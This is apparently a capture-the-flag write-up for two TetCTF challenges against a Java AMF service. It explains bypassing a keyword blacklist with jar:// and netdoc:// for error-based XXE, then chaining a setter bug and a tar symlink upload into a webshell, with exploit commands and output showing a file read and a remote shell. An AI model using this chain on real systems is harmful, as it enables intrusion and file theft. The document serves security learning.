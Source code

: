 # AMF1

- in this challenge, it's about XXE with some specific techniques on Java

- the blacklist is: `file|ftp|http|https|data|class|bash|logs|log|conf|etc|session|proc|root|history`

- so you can't make a outbound request to get your remote DTD, this time we need a local DTD to archive XXE. Have a quick look on this awesome blog: https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/

- with the trick: `jar:/file://[some_zip_file]!/[dtd_inside_the_archive]`, we can make use of local DTD in some jars file of Tomcat
- Reference: https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads_jars.md

- Java has `netdoc://` protocol, which is same as `file://`

- In the context of AMF, it will catch the Exception while handling the xml, and through it as HTTP Response, we can make use of this to archive XXE error-based
    - For ex: 
        - `_://` => no protocol exception

- Final Exploit
    - using `jar://` to load dtd inside some Tomcat jars
    - using `netdoc://` instead of `file://`, `netdoc://` or `file://` can also listing the directory (use to find the flag)
    - amf context exif error message via HTTP Respose + `_://` => error-based XXE

            python amf_xxe.py "http://139.162.40.239:1337/tetctf/messagebroker/amf" foo tetctf_v1


# AMF2

- in the second challenge, we exploit another bug on AMF, trigger `readExternal()` or some public `setters`, this allow us to trigger the `setBackupFile` of `TetCTFUtils`
- `TetCTFUtils.setBackupFile()` execute a `tar` command on arbitrary file on the system, so we need to create and upload a tar symlink file to server with `UploadServlet`
- Another clever way, we can make use of XXE with `jar:http://host/a.zip!/a.txt` with a custom socket server to make the server save the tmp file, and hang the connection to make the tmp file not deleted for a while, then use the xxe bug with `file://` to listing the directory to view the file name of tmp file, and finally, trigger the setter
- The last step: when we have created the symlink to the webroot, we just need to write our shell to the file we symlink the our webshell, so you can pass all the filter in the `UploadServlet`

## on your server run: 
    python jar_xxe_server.py

- edit the content of payload `trigger_jar_xxe` in `amf_xxe.py` to point to your socket server

## python tetctf_exp.py 


    [+] trigger_amf_xxe etc_hosts
    etc_hosts output: 
    127.0.0.1	localhost
    ::1	localhost ip6-localhost ip6-loopback
    fe00::0	ip6-localnet
    ff00::0	ip6-mcastprefix
    ff02::1	ip6-allnodes
    ff02::2	ip6-allrouters
    172.17.0.3	02688b965fbd (No such file or directory)...Bwlb.....
    [+] Done
    [+] trigger_amf_xxe trigger_jar_xxe
    [+] trigger_amf_xxe get_tmp_filename
    get_tmp_filename output: 
    jar_cache7343514775749524690.tmp
    safeToDelete.tmp (No such file or directory)...Bwlb.2...
    [+] Done
    [+] tmp filename: jar_cache7343514775749524690.tmp
    [+] generate_amf_setter_payload
    [+] trigger_setter
    AppendToGatewayUrl,;jsessionid=A9A1197B578F257C267FABA24A88FF87	/onStatus 
    C	coderootCausedetailsmessage#Server.ProcessinThe supplied destination id is not registered with any service.
    [+] upload_via_symlink
    { "serviceResponse":"true", "serviceError":null, "serviceName":"File Upload", "opName":"fileUpload" }
    [+] done, enjoy shell
    /peterjson@remote_shell/~.~
    id

    uid=1000(service) gid=1000(service) groups=1000(service)


    None
    /peterjson@remote_shell/~.~
    whoami       

    service



